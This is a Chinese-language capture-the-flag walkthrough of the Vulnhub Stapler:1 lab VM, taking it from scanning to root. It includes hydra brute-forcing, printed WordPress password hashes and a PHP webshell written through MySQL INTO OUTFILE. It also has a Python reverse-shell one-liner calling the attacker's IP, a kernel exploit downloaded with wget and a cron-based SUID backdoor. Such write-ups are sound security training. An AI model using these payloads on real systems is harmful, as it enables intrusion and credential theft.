Vulnhub-STAPLER: 1靶场实践

- - -

# Vulnhub-STAPLER: 1靶场实践

## 描述

-   Average beginner/intermediate VM, only a few twists
-   May find it easy/hard (depends on YOUR background)
-   ...also which way you attack the box
-   It SHOULD work on both VMware and Virtualbox
-   REBOOT the VM if you CHANGE network modes
-   Fusion users, you'll need to retry when importing
-   There are multiple methods to-do this machine
-   At least two (2) paths to get a limited shell
-   At least three (3) ways to get a root access

**Goal**: Get Root!

## 前言

下载Stapler靶机压缩包后，若导入ovf文件出现如下错误时：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231112134759-09326920-811f-1.png)

解决办法参考：[VMware 导入 ovf 文件格式异常报错之探解 | Secrypt Agency (ciphersaw.me)](https://ciphersaw.me/2021/07/10/exploration-of-file-format-exception-while-vmware-loads-ovf/)

## 环境

靶机下载地址：[Vulnhub-Stapler](http://www.vulnhub.com/entry/stapler-1,150/)

kali攻击机ip地址：192.168.179.149

## 靶机发现

```plain
arp-scan -l
或
nmap -sn 192.168.179.0/24
-sn表示只进行主机发现
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231112134822-16c694a8-811f-1.png)

## 信息收集

### **端口扫描**

```plain
nmap -A -sV 192.168.179.149 -p-
或
nmap -n -sT -sV 192.168.179.149 -p-
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231112134842-23105c1c-811f-1.png)

### **ftp服务**

使用nmap深入对22端口进行检测

```plain
nmap -n -sT -sV -A 192.168.179.149 -p21
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231112134901-2e4cdd6c-811f-1.png)

发现ftp服务可匿名访问，使用anonymous 用户和任意口令登录ftp服务，下载里面的note文件，并查看

[](https://xzfile.aliyuncs.com/media/upload/picture/20231112134921-3a6bb9d8-811f-1.png)

里面是John写给Elly的一条信息，说明可能含有用户Elly和John，上面提示还可能存在Harry用户。通过 hydra 工具检测是否存在空口令、同名口令、同名逆向口令等

```plain
hydra -L ftp_name -e nsr ftp://192.168.179.149
-e表示提供了更多的测试选项
n表示null，用空密码进行测试
s表示same，测试与用户名相同的密码
r表示逆转
参考链接：https://zhuanlan.zhihu.com/p/397779150
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231112134941-465ae30e-811f-1.png)

使用用户名elly，密码ylle进行登录

[](https://xzfile.aliyuncs.com/media/upload/picture/20231112135004-54076978-811f-1.png)

发现此时显示的是/etc下的文件，下载用户配置文件并查看：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231112135024-5fa3175a-811f-1.png)

将其中具有可登录 shell 的用户筛选出来，存至 ssh\_user\_name:

```plain
cat passwd | grep -v -E "nologin|false" | cut -d ":" -f 1 > ssh_user_name
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231112135041-69f5f75e-811f-1.png)

### ssh服务

根据上面获得的能够登录的所有用户ssh\_user\_name，利用hydra检测是否存在同名口令、同名逆口令、空口令等

```plain
hydra -L ssh_user_name -e nsr ssh://192.168.179.149
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231112135100-74e3e536-811f-1.png)

利用用户名SHayslett和密码进行ssh登录：

```plain
ssh SHayslett@192.168.179.149
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231112135116-7efcf1f2-811f-1.png)

### smb服务

使用enum4linux探测smb服务

```plain
enum4linux -a 192.168.179.149 | tee smb_result
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231112135135-89fbbc00-811f-1.png)

其中发现了目标主机的用户列表，可以提取用户名，对其进行空口令、同名口令的爆破等

与此同时也发现了有效共享服务名tmp和kathy

[](https://xzfile.aliyuncs.com/media/upload/picture/20231112135153-94be680e-811f-1.png)

使用smb服务连接工具smbclient进行连接, `-N` 参数指定空口令登录，**双斜杠后指定服务器地址，单斜杠后指定共享服务名**

```plain
smbclient -N //192.168.179.149/tmp
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231112135211-9f914c38-811f-1.png)

无可用信息

```plain
smbclient -N //192.168.179.149/kathy
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231112135230-ab1c3338-811f-1.png)

也无可用信息

### 端口80

访问对应的端口，提示找不到主页，可以使用nikto探测，没有可用信息

### 端口666

针对未知服务的端口，可使用 nc 工具进行探测

```plain
nc 192.168.179.149 666
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231112135259-bc5a9496-811f-1.png)

输出乱码，但是可以发现message2.jpg清晰字样

```plain
nc 192.168.179.149 666 > message_666
file message_666     //发现是一个zip压缩包
unzip message_666
查看message2.jpg
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231112135352-dbb61996-811f-1.png)

无可用信息

### 端口12380

此端口开放的http服务，访问该端口：http:192.168.179.149:12380

[](https://xzfile.aliyuncs.com/media/upload/picture/20231112135414-e8b77bbc-811f-1.png)

源代码中提示存在Zoe用户，其他无可用信息

使用nikto漏洞扫描工具进行漏洞初步扫描：

```plain
nikto -host http://192.168.179.149:12380
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231112135434-f470ddb8-811f-1.png)

站点支持https协议，存在目录/admin112233、/blogblog、/phpmyadmin,，同时还有robots.txt、/icons/README

使用https协议进行访问：[https://192.168.179.149:12380/robots.txt](https://192.168.179.149:12380/robots.txt)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231112135453-ffc32c3e-811f-1.png)

访问/icons/README

[](https://xzfile.aliyuncs.com/media/upload/picture/20231112135509-09a58652-8120-1.png)

apache默认文件中无可用信息

访问/admin112233目录：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231112135526-136f2634-8120-1.png)

只显示一个没有用的弹窗，并且重定向至其他网站

访问/blogblog:

[](https://xzfile.aliyuncs.com/media/upload/picture/20231112135541-1cd9d098-8120-1.png)

一个博客网站，并且下面显示该站使用的cms为wordpress，当然查看其源码能够发现更加详细的版本信息为：WordPress 4.2.1

访问/phpmyadmin/:

[](https://xzfile.aliyuncs.com/media/upload/picture/20231112135558-268b33e8-8120-1.png)

需要使用数据库账户及密码进行登录

### 对wordpress进行信息收集

先扫描指定用户：

```plain
wpscan --url https://192.168.179.149:12380/blogblog/ -e u --disable-tls-checks 
-e即 --enumerat，表示枚举
u表示扫描指定用户，可u1-100，指定前100个
--disable-tls-checks忽略 TLS 检查
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231112135616-31d3c436-8120-1.png)

扫描网站使用的插件：

```plain
wpscan --url https://192.168.179.149:12380/blogblog/ -e ap --disable-tls-checks --plugins-detection aggressive
--plugins-detection aggressive表示主动扫描模式
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231112135840-87305818-8120-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231112135904-95b20cf6-8120-1.png)

同时可以发现注册账号的页面：[https://192.168.179.149:12380/blogblog/wp-login.php?action=register](https://192.168.179.149:12380/blogblog/wp-login.php?action=register)

目录遍历网址：[https://192.168.179.149:12380/blogblog/wp-content/uploads/](https://192.168.179.149:12380/blogblog/wp-content/uploads/)

## 渗透

### advanced video

使用searchsploit寻找可用的插件漏洞

```plain
searchsploit advanced video
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231112135926-a2a061a6-8120-1.png)

下载exp进行漏洞利用：

```plain
wget https://www.exploit-db.com/exploits/39646
```

需要更改exp中的url内容，另外如果执行过程中遇到如下错误：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231112135943-aced1ac8-8120-1.png)

需要在 EXP 脚本打上补丁，使其忽略 SSL 的证书校验

[](https://xzfile.aliyuncs.com/media/upload/picture/20231112140056-d890e646-8120-1.png)

运行脚本成功后，在目录遍历网址中新增了一个时间一致的图片文件，下载查看：

```plain
wget https://192.168.179.149:12380/blogblog/wp-content/uploads/1140321183.jpeg --no-check-certificate
cat 1140321183.jpeg
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231112140117-e5146afa-8120-1.png)

里面包含mysql用户名与密码等重要信息

### mysql登录

使用用户名root和密码plbkac进行数据库登录

```plain
mysql -h 192.168.179.149 -uroot -pplbkac
```

查看数据库和相关表：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231112140136-f08db922-8120-1.png)

查看wp\_users表：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231112140156-fc42767c-8120-1.png)

将表中的user\_login与user\_pass提取出来并导入文件中，使用john进行爆破

```plain
select concat(user_login,':',user_pass) from wp_users;
John:$P$B7889EMq/erHIuZapMB8GEizebcIy9.    
Elly:$P$BlumbJRRBit7y50Y17.UPJ/xEgv4my0    
Peter:$P$BTzoYuAFiBA5ixX2njL0XcLzu67sGD0   
barry:$P$BIp1ND3G70AnRAkRY41vpVypsTfZhk0   
heather:$P$Bwd0VpK8hX4aN.rZ14WDdhEIGeJgf10 
garry:$P$BzjfKAHd6N4cHKiugLX.4aLes8PxnZ1   
harry:$P$BqV.SQ6OtKhVV7k7h1wqESkMh41buR0   
scott:$P$BFmSPiDX1fChKRsytp1yp8Jo7RdHeI1   
kathy:$P$BZlxAMnC6ON.PYaurLGrhfBi6TjtcA0   
tim:$P$BXDR7dLIJczwfuExJdpQqRsNf.9ueN0     
ZOE:$P$B.gMMKRP11QOdT5m1s9mstAUEDjagu1     
Dave:$P$Bl7/V9Lqvu37jJT.6t4KWmY.v907Hy.    
Simon:$P$BLxdiNNRP008kOQ.jE44CjSK/7tEcz0   
Abby:$P$ByZg5mTBpKiLZ5KxhhRe/uqR.48ofs.    
Vicki:$P$B85lqQ1Wwl2SqcPOuKDvxaSwodTY131   
Pam:$P$BuLagypsIJdEuzMkf20XyS5bRm00dQ0
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231112140216-0867260a-8121-1.png)

得到一些账户和密码

## 获取shell

### 上传php

使用用户名John与密码incorrect进行后台登录：[https://192.168.179.149:12380/blogblog/wp-login.php，进入如下主界面：](https://192.168.179.149:12380/blogblog/wp-login.php%EF%BC%8C%E8%BF%9B%E5%85%A5%E5%A6%82%E4%B8%8B%E4%B8%BB%E7%95%8C%E9%9D%A2%EF%BC%9A)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231112140236-13c3f118-8121-1.png)

大概浏览了一下站点，点击Plugins,发现可以上传插件，这里上传一个php文件，并且反弹shell，文件地址：[php-reverse-shell/php-reverse-shell.php at master · pentestmonkey/php-reverse-shell · GitHub](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231112140255-1f45cbc4-8121-1.png)

修改一下php-reverse-shell.php中的ip地址，修改为需要接受shell的攻击机地址

[](https://xzfile.aliyuncs.com/media/upload/picture/20231112140312-29be238a-8121-1.png)

在上传点上传之后，可以在目录中查看到刚上传的php文件

[](https://xzfile.aliyuncs.com/media/upload/picture/20231112140335-37305ace-8121-1.png)

点击该文件即可触发shell反弹

[](https://xzfile.aliyuncs.com/media/upload/picture/20231112140351-4104852a-8121-1.png)

### mysql向文件中写入一句话

使用用户名elly与密码ylle登入ftp服务，查看apache配置文件apache2/sites-available/default-ssl.conf

```plain
ftp:192.168.179.149
cd apache2
cd sites-available
get default-ssl.conf
exit
查看该文件并寻找网站根目录
cat default-ssl.conf | grep DocumentRoot
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231112140410-4c2f1b36-8121-1.png)

使用用户名root与密码pplbkac登录mysql,并向/blogblog/wp-content/uploads写入一句话木马文件exce.php

```plain
mysql -h 192.168.179.149 -uroot -pplbkac
SELECT "<?php system($_GET['cmd']); ?>" into outfile "/var/www/https/blogblog/wp-content/uploads/exec.php";
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231112140429-5734da66-8121-1.png)

此时upload目录下多了一个exec.php文件

[](https://xzfile.aliyuncs.com/media/upload/picture/20231112140445-6117b7ce-8121-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231112140506-6d61ed2e-8121-1.png)

kali监听，在cmd参数输入python反弹shell

```plain
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.179.141",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

访问：[https://192.168.179.149:12380/blogblog/wp-content/uploads/exec.php?cmd=python](https://192.168.179.149:12380/blogblog/wp-content/uploads/exec.php?cmd=python) -c 'import socket,subprocess,os;s=socket.socket(socket.AF\_INET,socket.SOCK\_STREAM);s.connect(("192.168.179.141",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(\["/bin/sh","-i"\]);'

[](https://xzfile.aliyuncs.com/media/upload/picture/20231112140524-77f2f8be-8121-1.png)

获得shell

### 文件上传冰蝎获取shell

这里也可以使用冰蝎来获取shell  
冰蝎下载地址：[Release Behinder\_v3.0\_Beta\_11: Update README.md · rebeyond/Behinder · GitHub](https://github.com/rebeyond/Behinder/releases/tag/Behinder_v3.0_Beta_11)

## 权限提升

### sudo提权

查看各个用户的历史命令获取更多信息， .bash\_history 命令操作日志

```plain
cat /home/*/.bash_history | grep -v exit
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231112140614-95ac551c-8121-1.png)

发现ssh连接命令，用户JKanode,密码为thisimypassword；用户peter，密码JZQuyIN5

选择一个用户进行ssh连接（经尝试用户JKanode无提权功能）

```plain
ssh peter@192.168.179.149
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231112140633-a11ae9ea-8121-1.png)

peter用户拥有sudo用户组权限，故可以尝试sudo提权

执行 `sudo -l` 命令并输入密码，发现 peter 用户的 sudo 权限为 **(ALL : ALL) ALL**，表示 peter 用户可以在任何主机上，以任意用户的身份执行任意命令

[](https://xzfile.aliyuncs.com/media/upload/picture/20231112140652-ac8d5bfa-8121-1.png)

获得root用户权限

```plain
sudo su - root
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231112140711-b830a4c6-8121-1.png)

### 内核漏洞提权

拿到shell后，收集一些内核版本相关的信息

[](https://xzfile.aliyuncs.com/media/upload/picture/20231112140730-c3611308-8121-1.png)

使用searchsploit搜索一些对应版本的漏洞

```plain
searchsploit ubuntu 16.04 privilege escalation
privilege escalation表示权限提升
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231112140749-ce6c2f1c-8121-1.png)

查看文档提示：

```plain
cat /tmp/39772.txt
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231112140809-dab94f66-8121-1.png)

根据提示下载exp包：

```plain
wget https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/39772.zip
unzip 39772.zip
```

根据文档提示，需要将解压后的文件夹中的exploit.tar上传至目标主机，因此在39772目录下使用python开放一个http端口

```plain
python -m SimpleHTTPServer
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231112140835-ea24ad4c-8121-1.png)

在shell上下载exploit.tar并解压

[](https://xzfile.aliyuncs.com/media/upload/picture/20231112140852-f465c0f2-8121-1.png)

根据文档提示，切换至目录ebpf\_mapfd\_doubleput\_exploit，运行命令

```plain
cd ebpf_mapfd_doubleput_exploit 
./compile.sh
./doubleput
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231112140909-fe3c6702-8121-1.png)

### Cron Jobs提权

得到低权限的shell后，查看cron任务计划表，获取可用信息：

```plain
ls -alh /etc/*cron*
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231112140926-0894b24a-8122-1.png)

在/etc/cron.d中发现一个可疑任务logrotate，查看具体详情：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231112140947-1530d95c-8122-1.png)

该计划任务5分钟执行一次，并且以root身份运行脚本/usr/local/sbin/cron-logrotate.sh，并且该脚本无内容，且权限充足

设置计划任务，在cron-logrotate.sh脚本文件中写入：将/bin/sh复制到/tmp/getroot，属主改为root:root,并且赋予SUID权限

```plain
echo "cp /bin/bash /tmp/getroot; chown root:root /tmp/getroot; chmod u+s /tmp/getroot" >> /usr/local/sbin/cron-logrotate.sh
```

等待5min后计划任务执行,执行/tmp/getroot -p命令，以root用户权限启动bash，获取root用户权限

[](https://xzfile.aliyuncs.com/media/upload/picture/20231112141007-20fc8326-8122-1.png)

## 获取flag

得到root权限后，切换至root目录下，得到flag为b6b545dc11b7a270f4bad23432190c75162c4a2b

[](https://xzfile.aliyuncs.com/media/upload/picture/20231112141027-2c9311c8-8122-1.png)
